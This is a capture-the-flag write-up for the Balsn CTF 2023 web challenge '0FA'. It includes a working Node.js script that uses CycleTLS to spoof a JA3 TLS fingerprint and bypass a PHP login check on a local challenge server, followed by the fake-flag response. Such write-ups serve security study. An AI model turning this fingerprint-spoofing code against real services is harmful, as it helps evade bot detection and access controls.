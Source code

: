 ### 0FA - balsnctf 2023 - web

![Challenge Description](chall_2023-10-08_18-01.png "Challenge Description")

### Running the challenge

```
docker-compose up -d
```

You can now access the challenge at https://localhost:8787/

### Writeup

Looking at flag.php we have the following:
```
include_once("config.php");
fingerprint_check();
if(!isset($_POST['username']) || $_POST['username'] !== "admin")
    die("Login failed!");
```

This means that to get the flag we need to send the username POST parameter as admin and we have to bypass the following fingerprint_check function:
```
define("FINGERPRINT", "771,4866-4865-4867-49195-49199-49196-49200-52393-52392-49171-49172-156-157-47-53,23-65281-10-11-35-16-5-13-18-51-45-43-27-17513,29-23-24,0");

function fingerprint_check() {
    if($_SERVER['HTTP_SSL_JA3'] !== FINGERPRINT) 
        die("Login Failed!"); 
}
```

If you want to know more about JA3 fingerprinting I recommend the following resources:
- https://github.com/salesforce/ja3
- https://engineering.salesforce.com/tls-fingerprinting-with-ja3-and-ja3s-247362855967/

To spoof the JA3 fingerprint that the server is expecting I've used the following project:
- https://github.com/Danny-Dasilva/CycleTLS

And created the following code:
```
const initCycleTLS = require('cycletls');

(async () => {
  const cycleTLS = await initCycleTLS();

  const response = await cycleTLS('https://localhost:8787/flag.php', {
    body: 'username=admin',
    ja3: '771,4866-4865-4867-49195-49199-49196-49200-52393-52392-49171-49172-156-157-47-53,23-65281-10-11-35-16-5-13-18-51-45-43-27-17513,29-23-24,0',
    headers: {"Content-Type": "application/x-www-form-urlencoded",},
    userAgent: 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0'
  }, 'post');

  console.log(response);
  cycleTLS.exit();
})();
```

To run this code go to the solution folder and run the following:
```
npm install
node attack.ts
```

Since the code is sending the expected username and spoofing the JA3 fingerprint we are able to retrieve the flag:
```
{
  status: 200,
  body: '<html>\n' +
    '<head>\n' +
    '    <title>Balsn CTF 2023 - 0FA</title>\n' +
    '    <meta charset="UTF-8">\n' +
    '    <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bulma@0.9.4/css/bulma.min.css">\n' +
    '</head>\n' +
    '<body>\n' +
    '  Here is your flag: BALSN{fake_flag}</body>\n' +
    '</html>',
  headers: {
    Connection: 'keep-alive',
    'Content-Type': 'text/html; charset=UTF-8',
    Date: 'Sun, 08 Oct 2023 17:41:54 GMT',
    Server: 'nginx/1.23.1'
  }
}
```